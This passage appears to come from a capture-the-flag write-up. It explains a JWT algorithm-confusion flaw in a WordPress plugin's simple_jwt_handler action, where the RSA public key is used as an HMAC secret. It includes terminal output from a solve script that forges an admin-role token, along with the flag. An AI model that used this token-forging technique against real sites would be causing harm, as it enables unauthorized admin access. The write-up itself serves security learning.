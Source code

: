 As we can see, if our JWT's header `alg` is **HS256**, it'll use the **RSA public key (`$key`) to calculate the HMAC**!

With that said, this plugin's AJAX action `simple_jwt_handler` is vulnerable to **[JWT algorithm confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)**!

## Exploitation

Armed with above information, we can forge our JWT `role` claim to `admin` via algorithm confusion. To do so, we can use the following solve script to get the flag.

<details><summary><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/JustinWonkyTokens)-[2024.09.21|21:39:33(HKT)]
└> php solve.php
[*] Forging a new JWT...
[*] JWT header type: JWT | algorithm: HS256
[*] JWT payload claim role: admin
[+] Generated new JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4ifQ.ievL1zWpAum7Ap1JxwZkE4Njyv39ogqoFbzxpcnXMrM
[*] Getting the flag...
[+] Flag: CTF{4lg0rithms_4r3_funny_1z268}
```

- **Flag: `CTF{4lg0rithms_4r3_funny_1z268}`**

## Conclusion

What we've learned:

1. JWT algorithm confusion